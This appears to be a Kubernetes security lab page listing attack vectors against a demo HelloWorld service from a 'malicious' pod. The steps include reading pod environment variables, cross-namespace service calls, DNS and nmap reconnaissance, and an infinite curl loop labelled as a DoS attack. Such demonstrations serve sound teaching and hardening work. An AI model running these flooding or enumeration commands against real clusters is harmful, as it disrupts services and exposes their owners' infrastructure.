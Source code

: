 Below you can see different attack vectors for HelloWord v3 as target.

```sh
$ kubectl get pod,svc -n hello -o wide
NAME                           READY     STATUS    RESTARTS   AGE       IP           NODE
po/hello-v1-69c9685b5-dgnhq    1/1       Running   1          21h       172.17.0.7   kube0
po/hello-v2-54f5878c79-v5znq   1/1       Running   1          21h       172.17.0.9   kube0
po/hello-v3-7cb4968687-f99b8   2/2       Running   2          21h       172.17.0.8   kube0

NAME                   TYPE       CLUSTER-IP       EXTERNAL-IP   PORT(S)          AGE       SELECTOR
svc/hello-svc-np       NodePort   10.103.208.144   <none>        5030:32624/TCP   21h       app=hello
svc/hello-svc-np-e2e   NodePort   10.109.99.200    <none>        5040:32199/TCP   21h       app=hello,version=v3

## getting all system environment variables available in a POD
$ kubectl exec hello-v1-69c9685b5-dgnhq  -n hello -- printenv

$ kubectl exec hello-v3-7cb4968687-f99b8 -n hello -c helloworld -- curl -s localhost:5000/hello
Hello version: v3, instance: hello-v3-7cb4968687-f99b8


## introducing a ‘malicious’ container
$ kubectl create ns malicious
$ kubectl run malicious-curl --image=radial/busyboxplus:curl -ti --replicas=1 -n malicious
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nmap xyz

## calling an API from other namespace through its services
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv hello-svc-np.hello.svc.cluster.local:5030/hello
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv hello-svc-np-e2e.hello.svc.cluster.local:5040/hello

## DoS attack
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ export HELLO_URL=hello-svc-np.hello.svc.cluster.local:5030
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ while true; do curl -s -o /dev/null http://$HELLO_URL/hello; done

## gathering information about the services living in kubernetes
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup hello-svc-np.hello.svc.cluster.local
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup hello-svc-np-e2e.hello.svc.cluster.local

## gathering information about the pods living in kubernetes
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172.17.0.7                             # po/hello-v1-69c9685b5-dgnhq
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172-17-0-7.hello.pod.cluster.local
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172.17.0.8                             # po/hello-v3-7cb4968687-f99b8
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172-17-0-8.hello.pod.cluster.local

## calling an API from other namespace directly from pod's IP addresses and open Ports
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv 172.17.0.7:5000/hello
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv 172.17.0.8:5000/hello
```

